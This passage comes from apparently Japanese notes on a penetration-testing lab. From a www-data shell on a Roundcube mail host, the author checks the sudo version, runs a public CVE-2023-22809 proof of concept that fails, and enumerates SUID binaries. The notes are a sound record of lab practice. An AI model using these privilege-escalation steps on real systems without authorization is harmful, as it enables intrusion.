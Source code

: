 ```sh
+---------+------------------------+-----------+---------------------+---------------------+--------------+----------------------+----------+-------------------------------------------------------------------------------------------------+
www-data@mail01:/$ 
```
パスワードハッシュはusersテーブルにはないらしい
他のテーブル見ても特に有用な情報がない



## CVE-2023-22809(失敗)
sudo -V
```bash
www-data@mail01:/$ sudo -V
sudo -V
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9

```
sudo.のバージョンが、1.9.9なので、パッチが当たってなかったら、CVE-2023-22809の脆弱性があるかもしれない

PoC : https://github.com/Toothless5143/CVE-2023-22809
```sh
www-data@mail01:/var/www/roundcube$ python3 CVE-2023-22809.py
python3 CVE-2023-22809.py
 ___  _  _  ____     ___   ___  ___   ___      ___   ___   ___   ___   ___                                                             
 / __)( \/ )( ___)___(__ \ / _ \(__ \ (__ ) ___(__ \ (__ \ ( _ ) / _ \ / _ ( (__  \  /  )__)(___)/ _/( (_) )/ _/  (_ \(___)/ _/  / _/ / _ \( (_) )\_  /                                                                                                                         
 \___)  \/  (____)   (____)\___/(____)(___/    (____)(____)\___/ \___/  (_/                                                             
CVE-2023-22809   By: Toothless5143
> Currently installed sudo version is not vulnerable
```
使えなさそう、理由としては`sudoers`ファイルで`SETENV`オプションが有効になっている必要があるが、その条件を満たしてないのかも



suidの列挙
```sh
ww-data@mail01:/var/www/roundcube$ find / -type f -perm -04000 -ls 2>/dev/null
<ndcube$ find / -type f -perm -04000 -ls 2>/dev/null
      821     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /snap/core20/1891/usr/bin/chfn
      827     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /snap/core20/1891/usr/bin/chsh
      896     87 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /snap/core20/1891/usr/bin/gpasswd
      980     55 -rwsr-xr-x   1 root     root        55528 Feb  7  2022 /snap/core20/1891/usr/bin/mount
      989     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /snap/core20/1891/usr/bin/newgrp
     1004     67 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /snap/core20/1891/usr/bin/passwd
     1114     67 -rwsr-xr-x   1 root     root        67816 Feb  7  2022 /snap/core20/1891/usr/bin/su
     1115    163 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /snap/core20/1891/usr/bin/sudo
     1173     39 -rwsr-xr-x   1 root     root        39144 Feb  7  2022 /snap/core20/1891/usr/bin/umount
     1262     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/1891/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```